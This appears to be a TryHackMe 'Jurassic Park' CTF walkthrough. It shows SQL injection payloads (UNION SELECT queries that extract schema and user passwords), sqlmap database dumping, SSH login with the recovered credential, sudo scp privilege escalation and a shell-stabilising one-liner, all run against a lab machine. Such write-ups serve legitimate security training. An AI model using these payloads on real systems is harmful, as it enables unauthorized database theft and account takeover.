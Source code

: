 ```yaml
---
date: 2025-01-09
categories: [CTF, THM]
title: "THM - Jurassic Park"
tags: ['nmap', 'privilege escalation', 'python', 'rce', 'sqli']

description: "Jurassic Park - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Jurassic Park

NMAP

![image1](../resources/0d8486104815498dbb69eb0d08f9f0ce.png)

Website  `http://10.10.204.254/shop.php`

![image2](../resources/45ff848e4e2144b08d81a73bf66b9f3a.png)

- Clicking on one gives the following URL:

`http://10.10.204.254/item.php?id=3`

- If you remove the ?id=3 it results in:

![image3](../resources/f143690100104fe89cef2b27c46b7d6a.png)

- So we know it's MySQL

- Attempting to break it
[http://10.10.204.254/item.php?id=3'](http://10.10.204.254/item.php?id=3)

or using Union

`http://10.10.204.254/item.php?id=3 UNION SELECT 1 --`


![image4](../resources/73d44746390b456287aab5787447fd81.png)


![image5](../resources/1ad2d0b6688546db8b2fe5c0735fd687.png)

- I randomly changed the id=100  `http://10.10.204.254/item.php?id=100`


![image6](../resources/912e630cebc14b458a3866468a8818e7.png)

Compared to (normal request ie. id=1):


![image7](../resources/31a7e397bc2d46e4a6cfd4c76ac26ece.png)

- Fuzzing the id field ?id=5

`http://10.10.204.254/item.php?id=5`


![image8](../resources/26983266b6fa45548a59b591a4548c36.png)

`http://10.10.204.254/item.php?id=5 union select 1`


![image9](../resources/b8c49afcc66540ed87671ed2043f9e6a.png)

```bash
union select 1,2,3,4,5

```

![image10](../resources/d7a3af7b686c4cb7878bd5940a5c5ca5.png)

- 2 and 4 are being reflected so:
```bash
union select 1,database(),3,version(),5

```

![image11](../resources/a2527e647a984555a29acdf0855d8e6c.png)


![image12](../resources/09bc127294704ff9b5b1dc4fad73f19e.png)

- Fetch the users table from the database

```bash
?id=1 union select 1,2,3,group_concat(column_name),5 from information_schema.columns where table_schema = database() and table_name = "users"

```

![image13](../resources/4f29f6b27b164a3d88c4625aff32b250.png)

- Get column passwords from the table

```bash
?id=1 union select 1,2,3,password,5 from users

```

![image14](../resources/bcb29cdb94da432a9f681737285eba68.png)

- But it dared me to use SQLMap so...

- Open Burp and capture the request. Save the request to a file (burp)


![image15](../resources/e203c5678a324f6f9d0ff7cfaf21b647.png)

- Run SQLMap:
```bash
sqlmap -r burp --batch

```
- Found the following injection points:

![image16](../resources/b522cbfca79e43ff8d559b8bf7b8c3be.png)

- Or just dump the database (more noisy):
```bash
sqlmap -r burp --batch --dump

```

![image17](../resources/623dc3a0492240c188eba816bb16c36a.png)


![image18](../resources/e3e7e9b6bd3444ba8b48bfb6ef2a53ae.png)

**Dennis : ih8dinos**

- SSH with the credentials:
```bash
ssh dennis@10.10.204.254

```
- Enumeration:

```bash
sudo -l

```

![image19](../resources/3de621fb681d4d3bbde25c06b18bd1ed.png)

- We can run scp as sudo

- GTFOBins


![image20](../resources/8f9b2b08eeb1490eb1286d51671eddf9.png)


![image21](../resources/b635569cb6d54129be10089ed47bba69.png)

- Got Root

![image22](../resources/1b6e1e41bc804d6d9db55a4f46f4e11e.png)

- Stabilise:
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image23](../resources/0196f74cfb104313b16a28f7840ebe7f.png)

- Search for flags
```bash
find / -name "flag\*" 2>/dev/null

```

![image24](../resources/b138f792a58e488283c75ffb24c7258c.png)


![image25](../resources/da975e6f85094c7493e8d327b1d95aa9.png)

- Found flag3 in:
/home/dennis/.bash_history